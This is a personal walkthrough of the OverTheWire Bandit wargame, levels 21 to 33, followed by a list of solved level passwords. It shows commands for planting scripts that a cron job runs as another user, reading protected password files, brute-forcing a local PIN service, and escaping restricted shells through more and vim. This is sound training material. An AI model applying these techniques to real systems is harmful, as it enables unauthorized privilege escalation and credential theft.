 # Overthewire bandit

## General
```bash
# password directory
/etc/bandit_pass/
# file premision dir
/tmp/name123
# the cronjob scripts
/usr/bin/cronjob_bandit24.sh
```
#### Level 21 -> 22:
if you look inside the `/etc/cron.d` a list of files that specifiy the code execution for each user. 
```bash
cat /usr/bin/cronjob_bandit22.sh
# file output
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
this file saves the password of level 22 into a tmp file, if we cat this file we get the 22th password.

### Level 23 -> 24
This script execute all files inside /var/spool/bandit24, and then removing them.
```Bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
This bash script will create a file named `pass_for_bandit24` inside the `/tmp/name123`, and give every bandit user the option to read its data.<br>
```Bash
cd /var/spool/bandit24/
vim get_pass24.sh
```
inside the file
```Bash
#!/bin/bash
touch /tmp/pass24
chmod 644 /tmp/pass24
cat /etc/bandit_pass/bandit24 > /tmp/pass24
```
then try and enter the file with vim. the moment the file does not exsits, meaning bandit24 execute, you can cat the file `/tmp/pass24`

### Level 24 -> 25
In this level you need to execute oneliner brute force. 
I thought it was impossible for some reason and didn't tried it even when I thought about it /fp.
After looking online and understanding that it is possible, I created this code:
```Bash
for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"; done | nc localhost 30002
```

### Level 25 -> 26
```Bash
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/screen
/usr/bin/tmux
/usr/bin/showtext
```

`/usr/bin/showtext`
```Bash
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
the shell showtext is not a shell, and it exit() after executing.
we need to change the default shell for bandit26, back to bash.
#### Attempts
1. we cannot change the `/etc/passwd` 
```
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
2. change the `/usr/bin/showtext` to execute `chsh -s /bin/bash`. I cannot change the shell file.
3. `usermod --shell /bin/bash bandit26`, the command is not recognized...

The solution is nuts! more will not exit until it will show all text. Meaning if we resize the terminal enough more will still be open. 
Then from inside more we can get into vim by pressing v. and then execute the commands:
```
set: shell=/bin/sh
:shell
```
from here we have a proper shell.

### Level 27 -> 28
we need to clone a repo from a localhost user. bandit27-git. if we login to this user we get a hint:
```
hint: ~/git-shell-commands should exist and have read and execute access.
```
a quick search reveals that it is a default hit from the git-shell 

#### Attempts
1. if we try to clone the repo, we don't have premission to create a new file called repo...
2. if we try to clone it inside `/tmp/name123` we don't have any premisions.
3. runing the `find . -perm /4000` to find all files that have a SUID flag we find 
```bash
./home/bandit19/bandit20-do
./home/bandit20/suconnect
./home/bandit32/uppershell
./home/bandit26/bandit27-do
./run/lock/find
./run/lock/hola
```
if you check th folder `/run/lock`, you can find very interseting files... 
First you can find a folder repo and the password for level 27 is inthere.
Second you can find a folder for level31 level30 level28 and bandit29, bandit30, bandit31.
In short we have now the passwords of level 28, 27, 29.
#### The intended solution
```bash
mktemp -d 
```
then clone in the tmp dir

#### Level 30 -> 31 
(always check everything that you don't know!)
the given repo has a file with one file. 
#### Attempts
1. went through the log, nothing.
2. went through the .git files, found a packed-ref, called secret.<br>
The packed-refs file:
```
3aefa229469b7ba1cc08203e5d8fa299354c496b refs/remotes/origin/master
f17132340e8ee6c159e0a4a6bc6f80e1da3b1aea refs/tags/secret
```
tried to checkout secret... no luck. packed-refs is a way for git to save a static tip of a branch for more efficiency.
#### Solusion
git tags are a way to save important notes 
```
git tag
git show <tag name>
```

### Level 31 -> 32
In this level we login with the uppercase shell. it converts every command to uppercase.

commands that we need to use in this level:<br>
man, sh
#### Attempts
1. input uppercase commands
2. try to change shell with the three methods that I tried in level 25.
3. try to look inside the uppershell file without success.
4. dash suppose to start faster then bash, then i tried to run it but no luck...

#### Solution
the idea is that the expression `$0` is the current running shell, meaning we can run it and go to the shell.


### Passwords
- 17: `xLYVMN9WE5zQ5vHacb0sZEVqbrp7nBTn`
- 18: `kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd`
- 19: `IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x`
- 20: `GbKksEFF4yrVs6il55v6gwY5aVje5f0j` <br>
     in this level the idea is to use the bandit20-do program to cat the 20th password inside `/etc/bandit_pass/`.
- 21: `gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr` : 18:28.16
- 22: `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI` : 07:38.49
- 23: `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n` : 05:54.12
- 24: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` : 42:20.48+
- 25: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG` : 21:35.33 + help
- 26: `5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z` : 1h + help
- 27: `3ba3118a22e93127a4ed485be72ef5ea` : 1m
- 28: `0ef186ac70e04ea33b4c1853d2526fa2` : help
- 29: `bbc96594b4e001778eee9975372716b2` : 20m
- 30: `5b90576bedb2cc04c86a9e924ce42faf` : 10m
- 31: `47e603bb428404d265f59c42920d81e5` : help
- 32: `56a9bf19c63d650ce78e6ec0354ee45e` : 04:04.45
- 33: `c9c3199ddf4121b10cf581a98d51caee` : help
